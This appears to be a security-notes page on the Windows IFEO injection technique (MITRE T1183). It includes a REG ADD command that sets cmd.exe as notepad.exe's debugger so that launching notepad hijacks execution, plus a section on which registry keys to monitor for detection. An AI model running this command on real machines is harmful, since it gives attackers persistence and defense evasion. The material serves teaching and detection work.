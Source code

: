 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode %}

Launching a notepad on the victim system:

![](../../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../../.gitbook/assets/ifeo-cmdline.png)

![](../../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" caption="" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" caption="" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" caption="" %}

